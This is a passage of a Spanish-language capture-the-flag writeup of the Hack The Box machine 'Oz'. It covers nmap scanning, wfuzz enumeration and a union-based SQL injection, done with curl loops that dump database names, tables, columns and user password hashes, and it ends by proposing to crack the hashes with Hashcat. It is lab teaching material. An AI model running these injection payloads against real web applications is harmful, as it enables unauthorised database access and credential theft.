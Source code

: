 ```yaml
---
layout: post
title:  "Maquina  Retirada Oz de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada OZ
tags: HTB, SQLI, SSTI(Server Side Template Injection), Port Knocking, Portainer, Dockers, Maquinas Retiradas, Writeup
---
```


# OZ ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.96       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
|_http-title: OZ webapi
|_http-trane-info: Problem with XML parsing of /evox/about
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login
|_http-trane-info: Problem with XML parsing of /evox/about
```
Procedemos con la herramienta `Wfuzz` a enumerar rutas y directorios
```bash
# wfuzz -c --hc=404 -w /usr/share/wordlist/rockyou.txt http://10.10.10.96/FUZZ
"/users/"
```
Probamos a seguir enumerando con la herramienta `Wfuzz` por la ruta `/users/FUZZ` y nos da un fallo de `Internal Server Error` cuando llega a la `'`
Sera vulnerable a una `Injeccion SQL`?
```bash
Probamos a hacer un "' order by 1-- -" y nos responde un "NULL"
```
Con esto verificamos que es vulnerable a SQLI y procedemos a realizar las siguientes consultas SQLI:
```mysql
Consulta 1:
"' union select database()-- -"
10.10.10.96/users/'%20union%20select%20database()--%20-			  RESPUESTA DEL SERVIDOR:	“ozdb” Base de Datos en USO

Consulta 2:
"' union select user()-- -"
10.10.10.96/users/'%20union%20select%20user()--%20-						RESPUESTA DEL SERVIDOR: "dorthi@10.100.10.6"   un contenedor ?? de donde es esta IP ¿¿??

Consulta 3:
usamos Curl para hacer las peticiones: 
"' union select schema_name from information_schema.shemata limit 0,1-- -" e iteramos sobre el valor de 0 con un bucle para $i y sacar todas los nombres de las bases de datos
# for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20schema_name%20from%20information_schema.schemata%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "information_schema"
  "username": "mysql"
  "username": "ozdb"
  "username": "performance_schema"

Consulta 4:
Vamos a averiguar las tablas de una de las bases de datos encontradas anteriormente:
"' union select table_name from information_schema.tables where table_schema="osdb" limit 0,1-- -" 
# for i in $(seq 0 10); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20table_name%20from%20information_schema.tables%20where%20table_schema=%22ozdb%22%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "tickets_gbw"
  "username": "users_gbw"
   null

Consulta 5:
Vamos a averiguar las columnas de la tabla en la base de datos que ya hemos encontrado: Usamos Curl: Iteramos sobre un FOR
"' union select column_name from information_schema.columns where table_schema="ozdb" and table_name="users_gbw" limit 0,1-- -"
# for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20column_name%20from%20information_schema.columns%20where%20table_schema=%22ozdb%22%20and%20table_name=%22users_gbw%22%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "id"
  "username": "username"
  "username": "password"
```
Ya tenemos los Campos `Username & Password` que son en los que queremos visualizar la `DATA` dentro de ellos.
Como `Solo Tenemos una columna` necesitamos jugar con un `GROUP_CONCAT(username, password)` para poder listar dos campos en una sola columna.

```bash
Consulta 6:
vamos a listar los campos Username, Password de la tabla "users_gbw" de la base de datos "ozdb"
"' union select group_concat(username,':',password) from users_gbw-- -"
# curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20group_concat(username,%22:%22,password)%20from%20users_gbw--%20-"  | tr ',' '\n'                     
username":"dorthi:$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
tin.man:$pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk
wizard.oz:$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY
coward.lyon:$pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY
toto:$pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg
admin:$pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ"
```
Encontramos unos hashes, estos hashes pueden ser `crackeados` y averiguamos el tipo de hash que es para luego mediante el uso de la herramienta `Hashcat` 


